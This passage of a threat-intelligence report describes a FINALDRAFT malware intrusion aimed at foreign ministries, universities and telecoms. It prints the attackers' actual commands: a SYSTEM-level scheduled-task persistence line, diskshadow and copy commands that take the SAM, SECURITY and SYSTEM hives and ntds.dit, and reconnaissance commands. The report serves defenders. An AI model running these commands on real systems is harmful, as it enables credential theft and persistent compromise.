     *   This command uses the `-cf` flag to specify the path to a script file (`config.ini`) that is executed when the debugger starts and the `-o` flag to debug all processes launched by the target application.
    *   `fontdrvhost.exe` then spawned `mspaint.exe` and injected shellcode into it. This shellcode was identified as the FINALDRAFT malware.
*   **Persistence**: A Scheduled Task was created to invoke the renamed `CDB.exe` debugger and the weaponized INI file every minute as SYSTEM.
    *   Command: `schtasks /create /RL HIGHEST /F /tn "\\Microsoft\\Windows\\AppID\\EPolicyManager" /tr "C:\\ProgramData\\fontdrvhost.exe -cf C:\\ProgramData\\config.ini -o C:\\ProgramData\\fontdrvhost.exe" /sc MINUTE /mo 1 /RU SYSTEM`
*   **Network Communication**: The adversary performed connectivity tests using `ping.exe` and PowerShell's `Invoke-WebRequest` cmdlet. They checked connectivity to legitimate Microsoft sites (`graph.microsoft[.]com`, `login.microsoftonline[.]com`) and adversary-owned infrastructure (`digert.ictnsc[.]com`, `support.vmphere[.]com`).
*   **Credential Access**: The adversary used `diskshadow.exe` to extract the SAM, SECURITY, and SYSTEM Registry hives and copied the Active Directory database (ntds.dit). They used `7za.exe` to compress the results.
    *   Commands:
        *   `diskshadow.exe /s C:\\ProgramData\\SoftwareDistribution.txt`
        *   `cmd.exe /c copy z:\\Windows\\System32\\config\\SAM C:\\ProgramData\\[redacted].local\\SAM /y`
        *   `cmd.exe /c copy z:\\Windows\\System32\\config\\SECURITY C:\\ProgramData\\[redacted].local\\SECURITY /y`
        *   `cmd.exe /c copy z:\\Windows\\System32\\config\\SYSTEM C:\\ProgramData\\[redacted].local\\SYSTEM /y`
        *   `cmd.exe /c copy z:\\windows\\ntds\\ntds.dit C:\\ProgramData\\[redacted].local\\ntds.dit /y`
        *   `7za.exe a [redacted].local.7z "C:\\ProgramData\\[redacted].local\\"`
*   **Reconnaissance**: The adversary enumerated system and domain information using commands like `systeminfo`, `dnscmd . /EnumZones`, `net group /domain`, `quser`, and `reg query`.
*   **Malware Analysis**:
    *   **FINALDRAFT**: A full-featured remote administration tool with add-on modules. It abuses Microsoft’s Graph API for command and control. There are both Windows and Linux variants. The Linux ELF variants were uploaded to VirusTotal in late 2024.
    *   **PATHLOADER and GUIDLOADER**: These are used to download and execute encrypted shellcode in memory and have only been observed with FINALDRAFT payloads. Samples of GUIDLOADER uploaded between June and August 2023 had minor modifications to how the encrypted payload was downloaded and were configured to use FINALDRAFT domains.

### Countries
*   South America
*   Southeast Asia

### Industries
*   Foreign ministries
*   Universities
*   Telecommunications

### Recommendations
*   Defenders of organizations that depend on network visibility should be aware that FINALDRAFT uses Microsoft’s Graph API, which blends in with legitimate organizational traffic. It is recommended to **NOT block-list** this domain unless the business ramifications are understood.
*   Organizations should implement defensive capabilities across infosec domains operated by knowledgeable professionals to mitigate advanced threats.
